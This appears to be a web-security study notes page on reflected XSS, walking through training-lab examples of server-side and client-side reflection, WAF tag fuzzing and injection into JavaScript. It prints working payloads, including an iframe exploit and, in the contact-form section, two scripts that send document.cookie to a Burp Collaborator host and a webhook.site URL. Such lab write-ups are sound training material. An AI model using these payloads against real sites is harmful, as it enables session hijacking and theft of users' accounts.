




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Reflected


Reflected XSS occurs when malicious scripts are reflected off a web server, executed immediately, and displayed in the user's browser, typically via URL parameters or form inputs.



This can lead to unauthorized actions, data theft, or redirection to malicious sites, as the script runs in the context of the trusted website.


## Reflected Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This type of XSS is often found in `GET` requests and is based on the fact that the user trusts the domain. The app below has a search functionality where the search term is passed through a `GET` request and the `s` parameter. It is also reflected on the page via a `div` element (Figure 1).

<figure><figcaption><p>Figure 1: Searching for potential XSS entry points.</p></figcaption></figure>

A good starting point for finding XSS, is to first test for HTML injection. The latter has less potential for error, however, being able to inject HTML doesn't guarantee an XSS vulnerablity (Figure 2).

```html
<h1>test</h1>
```

<figure><figcaption><p>Figure 2: Testing for HTML injection.</p></figcaption></figure>

Since the app is vulerable to HTML injection, we can proceed testing for XSS (Figure 3).

```javascript
<script>prompt("XSS")</script>
```

<figure><figcaption><p>Figure 3: Testing for XSS.</p></figcaption></figure>

If our target clicks the link that includes the payload, it will be executed on their browser.

```html
search.com/search.php?s=%3Cscript%3Eprompt%28%22XSS%22%29%3C%2Fscript%3E
```

We can confirm that the server initiated the appending of the payload the to document by intercepting the request. The client executed the payload, but did not append it (Figure 4).\


<figure><figcaption><p>Figure 4: Confirming the server-side reflected XSS.</p></figcaption></figure>

## Reflected Client XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The impact of Reflected Client XSS is similar to that of Reflected Stored XSS, although the discovery and payload may differ. The payload is appended on the client-side rather on the server-side, and this mean that we can't enumerate Client XSS by intercepting the traffic and reviewing the server's response. Instead, we need to let the browser render the page fully and check if the payload has worked.

This app in question includes a `GET` request with the parameter `name` which seems to be vulnerable to HTML injection (Figure 5).

<figure><figcaption><p>Figure 5: Testing for HTML injection.</p></figcaption></figure>

Testing for XSS seems unsuccessful, although the payload seems to be appended correctly (Figure 6).

<figure><figcaption><p>Figure 6: Testing for XSS.</p></figcaption></figure>

Diving into the Network tab and reading the HTTP response, we can see that the string returned is `Welcome, User!` which is not what we get on our browser (Figure 7).

<figure><figcaption><p>Figure 7: Inspecting the network tab.</p></figcaption></figure>

Scrolling down the JS file, we can find that two more resources are loaded (Figure 8).

<figure><figcaption><p>Figure 8: Enumerating JavaScript resources.</p></figcaption></figure>

Diving deeper into the `survey.js` file, we find out that it sets the `innerHTML` of the `welcome` DOM element to the value set in the `name` parameter. This is where our payload gets injected.

<figure><figcaption><p>Figure 9: Investigating the <code>survey.js</code> file.</p></figcaption></figure>

According to [MDN](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML), HTML specifies that a `<script>` tag inserted with `innerHTML` should not execute. However, right on the next line it gives a payload that should work (Figure 10).

```javascript

```

<figure><figcaption><p>Figure 10: Successfully performing an XSS attack.</p></figcaption></figure>

## Filter Bypass

> _The example below is based on PortSwigger's_ [_Reflected XSS into HTML context with most tags and attributes blocked_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) _lab._

In this web application, there is a search functionality and the search term is reflected back into the page within HTML tags (Figure 1).

<figure><figcaption><p>Figure 1: Identifying where our input is reflected.</p></figcaption></figure>

When our payload is inside HTML tags, we can simply add new HTML tags to trigger it. It seems that there is a WAF[^1] blocking specific tags (Figure 2).

<figure><figcaption><p>Figure 2: Common JavaScript tags seem to be blocked by a WAF.</p></figcaption></figure>

We can create a tag wordlist using PortSwigger's [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), and fuzz the application to see which tags are allowed (Figure 3).

<figure><figcaption><p>Figure 3: Fuzzing JavaScript tags with Burp's Intruder.</p></figcaption></figure>

Trying the `<body>` tag results in another verbose error message (Figure 4).

<figure><figcaption><p>Figure 4: Another verbose error message informing us about a blacklisted attribute.</p></figcaption></figure>

We can repeat the same process and enumerate allowed attributes (Figure 5).

<figure><figcaption><p>Figure 5: Fuzzing JavaScript attributes with Burp's Intruder.</p></figcaption></figure>

Now, all we have to do is delivering our XSS payload to the victim via the exploit server (Figure 6).


```javascript
<iframe src="https://0a64008c03c63be4804ada980065007b.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload=this.style.width='1em'>
```


<figure><figcaption><p>Figure 6: Delivering the exploit to the victim via an <code>iframe</code>.</p></figcaption></figure>

## Within JS

> _The example below is based on PortSwigger's_ [_Reflected XSS into a JavaScript string with angle brackets HTML encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) _lab._

This time the search keyword ends up within a block of JS[^2] code (Figure 7).

<figure><figcaption><p>Figure 7: Identifying the context of a potential XSS flaw.</p></figcaption></figure>

We can treat this similar to an [SQLi](../sqli/) flaw and try injecting JS[^3] code to the search keyword (Figure 8).

<figure><figcaption><p>Figure 8: Achieving XSS via JavaScript Injection.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a Support Ticket functionality and we also have access to an admin account that will review the submitted ticket. To test for stored XSS will use FireFox's [Multi-Account Containers](../../authorization/automated-a-b-testing.md#multi-account-containers) (Figure 9).

<figure><figcaption><p>Figure 9: Setting up FireFox's containers for XSS testing.</p></figcaption></figure>

We will a web server, such as Burp's Collaborator or [Webhook](https://webhook.site/), to receive the request along with the admin's cookie (Figure 10 & 11).


```javascript
// collaborator payload
<script>
fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```


<figure><figcaption><p>Figure 10: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><figcaption><p>Figure 11: Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>

[^1]: Web Application Firewall

[^2]: JavaScript

[^3]: JavaScript
